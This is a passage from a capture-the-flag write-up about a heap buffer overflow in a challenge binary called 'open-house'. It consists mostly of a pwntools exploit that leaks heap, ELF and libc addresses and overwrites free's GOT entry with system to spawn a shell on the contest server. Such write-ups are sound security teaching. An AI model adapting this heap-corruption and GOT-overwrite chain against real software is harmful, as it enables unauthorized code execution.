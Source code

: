 ```cpp=
    return fgets(data_buf, 528, stdin);
  }
  return result;
}
```

Classical buffer overflow right? the data_buf gets 528 bytes in so the fd and bk pointers will be overwritten. We will abuse this bug combined with the heap leak to achieve libc leak and write-what-where primitive.

### Exploit

```python=
from pwn import *
from time import sleep

#io = process('./chall')
io = remote('open-house-6dvpeatmylgze.shellweplayaga.me', 10001)
elf = ELF('./open-house')
libc = ELF('./libc.so.6')

def d(i):
    io.sendlineafter(b'> ', b'd')
    io.sendlineafter(b'delete?\n', str(i).encode())
def m(i, dat):
    io.sendlineafter(b'> ', b'm')
    io.sendlineafter(b'replace?\n', str(i).encode())
    io.sendlineafter(b'with?\n', dat)
def c(dat):
    io.sendlineafter(b'> ', b'c')
    io.sendlineafter(b'!\n', dat)
def v():
    io.sendlineafter(b'> ', b'v')

io.sendline(b'ticket{FloorUtilities9778n23:S-bue6uE7pNz4Fu-lONAjMZyp2OaujqAgmb_3Pg2oQYs2_t1}')

c(b'd'*1000) # 11
c(b'ddddd') # 12
c(b'ok') # 13
v()
io.recvuntil(b'd'*512)
io.recv(4)
heap = u32(io.recv(4))+0x210
log.info('heap: '+hex(heap))
m(2, b'd'*0x1f0+p32(0)+p32(heap+0x1220))
m(12, b'd'*512+p32(heap-0x12a0)+p32(heap+0x1010))
v()
for i in range(2):
    io.recvuntil(b'd'*512)
io.recvuntil(b'**** - ')
io.recv(4)
elf.address = u32(io.recv(4)) - 0x3164
log.info('elf: '+hex(elf.address))
m(12, b'd'*512+p32(elf.got['fputs'])+p32(heap+0x1010))
v()
for i in range(2):
    io.recvuntil(b'd'*512)
io.recvuntil(b'**** - ')
libc.address = u32(io.recv(4)) - libc.sym['fputs']
log.info('libc: '+hex(libc.address))
m(1, b'sh')
m(12, b'd'*512+p32(elf.got['free'])+p32(heap+0x1010))
m(13, p32(libc.sym['system'])+p32(libc.sym['fgets']))
d(1)
```